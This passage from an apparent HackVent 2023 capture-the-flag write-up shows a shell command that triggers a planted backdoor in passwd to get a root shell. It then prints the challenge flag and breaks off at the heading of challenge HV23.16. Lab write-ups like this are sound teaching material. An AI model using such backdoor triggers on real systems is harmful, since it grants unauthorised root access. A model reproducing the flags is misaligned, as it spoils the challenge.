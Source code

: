     challenge:~$ SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ passwd -E
    Enjoy your salami!
    root@5758f563-7d3b-4f9f-86b3-9da328f60153:/home/challenge#
    

The result is a root shell, where I can read the flag from root’s home
directory:

    
    
    root:/root# cat flag.txt 
    HV23{3v1l_p455wd}
    

**Flag:`HV23{3v1l_p455wd}`**

## HV23.16

### Challenge

![HackVent ball16](../img/hvball-hard-16.png) | HV23.16 Santa's Gift Factory  
---|---  
Categories: |  ![exploitation](../img/hv-cat-exploitation.png)EXPLOITATION   